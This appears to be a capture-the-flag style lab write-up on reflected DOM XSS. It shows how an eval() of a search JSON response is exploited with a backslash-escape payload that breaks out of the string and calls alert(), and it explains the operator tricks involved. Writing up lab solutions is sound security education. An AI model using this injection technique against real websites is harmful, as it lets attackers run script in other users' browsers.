





# Lab: Reflected DOM XSS

> Lab Objective: create an injection that calls the `alert()` function.

- Firstly, Enter simple input like this `test'"><` in search functionality, then search for the input in the Source Code.

  > In order to know which character from those `'"><` are either HTML-Encoded, Stripped, etc.

- When reviewing the source code, I didn't find the input I entered, instead the application calls a JS Code, then calls a function from that code.
  

- When viewing this JS Code, I see that he uses `eval()` function with is unsafe, therefore I'll try to exploit it.

- The Code Snippet:
  - The rest of the code, he just set Display search results using DOM Methods.
  - Code Snippet Explanation:
    - Creates an `XMLHttpRequest` to fetch data asynchronously
    - Sets up a handler that:
      - Checks if the request is complete (`readyState == 4`) and successful (`status == 200`)
      - Evaluates the response text as JavaScript to create `searchResultsObj`
      - Calls `displaySearchResults()` with this object
    - Opens a `GET` request to `'search-results'` + the current URL's query string
    - Sends the request.

```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function () {
  if (this.readyState == 4 && this.status == 200) {
    eval("var searchResultsObj = " + this.responseText);
    displaySearchResults(searchResultsObj);
  }
};
xhr.open("GET", path + window.location.search);
xhr.send();
```

- The response returned from the request sent to `'search-results'` is a JSON Object:

```json
{ "results": [], "searchTerm": "test'\"><" }
```

- Since the response text is in json format in an `eval` function, I would try to craft my payload to match one of these two lines code: (both lines of code will cause an `alert()`)

```js
eval('let obj = { results: [], searchTerm: "test"-alert(1)};');
eval('let obj = { results: [], searchTerm: "test"+alert(1)};');
```

- The double quotes is escaped but when You add a backslash to cancel the escaping (e.g., `test\"`) it works successfully.
  
  
  

- Therefore, in order to conduct one of the two forms stated previously, try this payload: `test\"+alert(0)}//`

  - Which cause the response to be in that form:

  ```json
  {"results":[],"searchTerm":"test\\"+alert(0)}//"}
  ```

  - Causing the `alert()` function to execute.
    

- Finally, the lab is solved.
  

---

## Explanation

- Why the following code snippets work?

```js
eval('let obj = { results: [], searchTerm: "test"-alert(1)};');
eval('let obj = { results: [], searchTerm: "test"+alert(1)};');
```

- In the first example:

```json
{ "searchTerm": "test"-alert(1) }
```

- The `-` triggers numeric conversion:

  - `"test"` becomes `NaN`
  - `alert(1)` executes (returns `undefined`)
  - Result: `NaN - undefined` → `NaN` (but `alert` runs first)

- In the second example:

```json
{ "searchTerm": "test"+alert(1) }
```

    - The `+` concatenates after alert executes:
    - `alert(1)` runs (returns `undefined`)
    - `"test" + undefined` → `"testundefined"`

---
